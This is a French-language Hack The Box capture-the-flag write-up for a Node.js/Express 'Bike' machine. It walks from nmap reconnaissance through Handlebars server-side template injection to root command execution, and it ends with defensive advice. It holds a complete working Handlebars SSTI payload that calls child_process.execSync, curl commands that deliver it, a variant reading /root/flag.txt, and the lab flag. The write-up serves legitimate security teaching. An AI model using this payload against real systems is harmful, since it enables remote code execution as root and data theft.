





> Plateforme : **Hack The Box** — Starting Point (Tier 1)

## Informations

- **Catégorie :** Web (SSTI)
- **Difficulté :** Very Easy
- **Auteur du write-up :** 3ch0
- **Services :** `22/tcp` (OpenSSH 8.2p1), `80/tcp` (Node.js / Express)
- **Flag :** `6b258d726d287462d60c103d0142a81c`

---

## 1. Reconnaissance

```bash
nmap -p- -sC -sV -T4 10.129.97.64
```

```text
22/tcp open  ssh   OpenSSH 8.2p1 Ubuntu
80/tcp open  http  Node.js (Express middleware)   (titre: Bike)
```



Le port 80 sert une page « site en construction » avec un formulaire : un champ `email` posté en `POST /`.

```html
<form id="form" method="POST" action="/">
  <input name="email" placeholder="E-mail">
  <button type="submit" name="action" value="Submit">Submit</button>
</form>
```

---

## 2. Identification de la SSTI

Soumettre un email renvoie une confirmation qui **réfléchit** la valeur. On teste une entrée template :

```bash
curl -s -X POST http://10.129.97.64/ --data-urlencode "email={{7*7}}"
```

```text
["Error: Parse error on line 1:","{{7*7}}","--^",...
 "at router.post (/root/Backend/routes/handlers.js:15:18)"]
```



Deux informations capitales :
- La stack trace nomme **`handlebars`** et `/root/Backend/...` → moteur **Handlebars**, appli lancée depuis `/root/` donc tournant en **root**.
- Le fait qu'une *parse error* survienne **sur notre entrée** prouve que l'input est **compilé comme template** → **SSTI** (et non une simple donnée).

Confirmation avec une entrée valide :

```bash
curl -s -X POST http://10.129.97.64/ --data-urlencode "email={{this}}"
```

```text
We will contact you at: [object Object]
```

`{{this}}` est **interprété** (rendu de l'objet contexte) au lieu d'être affiché littéralement → SSTI confirmée.

> **Pourquoi `{{7*7}}` ne rend pas 49 :** Handlebars est *logic-less* — il ne fait que lire des variables ou appeler des helpers, il **n'évalue aucune expression**. `{{7*7}}` → 49 est le test SSTI des moteurs qui évaluent (Jinja2, Twig, Freemarker…), pas de Handlebars/Mustache. Ici les bons indicateurs sont la parse error (compilation) et `{{this}}` (interprétation).



---

## 3. De la SSTI à la RCE

Handlebars interdit les expressions mais autorise l'**accès aux objets** via ses helpers (`#with`, `lookup`). On remonte alors la chaîne JavaScript :

```text
"".constructor        → String
String.constructor    → Function   (le constructeur de fonctions)
Function("code")()    → exécution de JS arbitraire
```

Deux pièges à contourner :
- **`require is not defined`** : dans le scope du `Function` constructor, `require` n'est pas global. On passe par **`process.mainModule.require`**.
- **`exec` est asynchrone** (pas de retour visible) → on utilise **`execSync`**, qui renvoie la sortie, affichée directement dans la réponse.

Payload (valeur du champ `email`) :

```text
{{#with "s" as |string|}}{{#with "e"}}{{#with split as |conslist|}}{{this.pop}}{{this.push (lookup string.sub "constructor")}}{{this.pop}}{{#with string.split as |codelist|}}{{this.pop}}{{this.push "return process.mainModule.require('child_process').execSync('id');"}}{{this.pop}}{{#each conslist}}{{#with (string.sub.apply 0 codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}
```

```bash
cat > payload.txt   # (coller la payload ci-dessus)
curl -s -X POST http://10.129.97.64/ \
  --data-urlencode "email@payload.txt" --data-urlencode "action=Submit" \
  | grep -i "contact you at"
```

```text
We will contact you at: ... uid=0(root) gid=0(root) groups=0(root)
```

**RCE en root** (le service Node tourne en root).



---

## 4. Flag

On remplace la commande par la lecture du flag :

```bash
sed -i "s#execSync('id')#execSync('cat /root/flag.txt')#" payload.txt
curl -s -X POST http://10.129.97.64/ \
  --data-urlencode "email@payload.txt" --data-urlencode "action=Submit" \
  | grep -i "contact you at"
```

```text
We will contact you at: ... 6b258d726d287462d60c103d0142a81c
```



**Flag :** `6b258d726d287462d60c103d0142a81c`

---

## Récapitulatif

1. **nmap** → port 80 Node.js/Express, formulaire `email` réfléchi.
2. `{{7*7}}` → parse error Handlebars (compilation de l'input) ; `{{this}}` → `[object Object]` (interprétation) → **SSTI**.
3. Contournements : `process.mainModule.require` (vs `require` non défini) + `execSync` (sortie visible).
4. Chaîne `constructor → Function` → **RCE en root** → flag.

> **Concept clé :** la SSTI naît d'une seule faute — **compiler un template à partir d'une entrée utilisateur** (`Handlebars.compile(req.body.email)`) au lieu de passer l'entrée comme *donnée* à un template fixe. Le réflexe de détection dépend du moteur : `{{7*7}}`→49 pour les moteurs qui évaluent des expressions (Jinja2, Twig…), mais pour un moteur *logic-less* comme Handlebars il faut repérer la parse error (preuve de compilation) et l'interprétation de `{{this}}`. L'escalade vers la RCE exploite ensuite une constante de JavaScript : depuis n'importe quel objet on atteint `constructor` puis `Function`, et dans Node on récupère `require` via `process.mainModule.require` pour charger `child_process`. Défense : ne jamais construire un template depuis une entrée, et ne pas lancer le service en root.

---

***— 3ch0***
